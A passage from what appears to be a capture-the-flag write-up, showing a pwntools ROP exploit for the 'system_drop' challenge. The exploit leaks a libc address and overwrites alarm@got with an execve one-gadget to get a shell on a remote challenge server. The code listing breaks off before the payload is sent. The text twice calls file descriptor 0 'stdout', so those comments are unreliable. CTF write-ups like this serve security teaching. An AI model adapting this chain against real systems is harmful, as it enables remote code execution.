 So far so good:

```
► ./sploit.py SILENT=1
alarm@libc: 0x7f6da9056610
libc base: 0x7f6da8f72000
```

We already have a list of `execve()` offsets from the Controller challenge when we ran `one_gadget`. In order to execute it, we need to overwrite a function pointer in the GOT with the address of the `execve()` gadget. We can overwrite the address of `alarm()` at the GOT, and then call `alarm()` at PLT to call the `execve()` gadget. To do that, we need to call `read()` at PLT with the RDI register set to 0 (stdout), and RSI set to the address of `alarm()` at the GOT:

```
# Stage 2 : We have libc and calculated the address of a one-gadget-rce at this point
# Call read() again to overwrite alarm@got with one-gadget-rce
buf += p64(pop_rdi)
buf += p64(0x0)                 # stdout
buf += p64(pop_rsi_chain)       # pop rsi; pop r15; ret
buf += p64(elf.got.alarm)       # alarm@got
buf += p64(0x0)                 # junk for r15
buf += p64(read_plt)            # read() in our one-gadget-rce into alamr@got
```

When this chain executes, the binary will wait for input. At this point we can send the address of the `execve()` gadget to overwrite `alarm()` at the GOT, and then return to `alarm()` at the PLT.

Here’s the final exploit:

```
#!/usr/bin/env python3
from pwn import *

context(os="linux", arch="amd64")
elf = context.binary = ELF("system_drop")

libc = ELF("libc.so.6")

read_plt = elf.plt.read

pop_rdi = 0x4005d3               # pop rdi
pop_rsi_chain = 0x4005d1         # pop rsi; pop r15; ret
syscall = 0x40053b               # syscall; ret

r = remote("139.59.185.150",30477)

# Stage 1 : Leak a libc address
# After the binary calls read(), it sets eax=1 which we can use for a write() syscall to leak
# alarm()'s libc address
buf = b"A"*40
buf += p64(pop_rdi)
buf += p64(0x1)                 # stdout
buf += p64(pop_rsi_chain)
buf += p64(elf.got.alarm)       # alarm@got
buf += p64(0x0)
buf += p64(syscall)             # write() syscall which should give us the libc address we need

# Stage 2 : We have libc and calculated the address of a one-gadget-rce at this point
# Call read() again to overwrite alarm@got with one-gadget-rce
buf += p64(pop_rdi)
buf += p64(0x0)                 # stdout
buf += p64(pop_rsi_chain)
buf += p64(elf.got.alarm)       # alarm@got
buf += p64(0x0)
buf += p64(read_plt)            # read() in our one-gadget-rce into alamr@got

```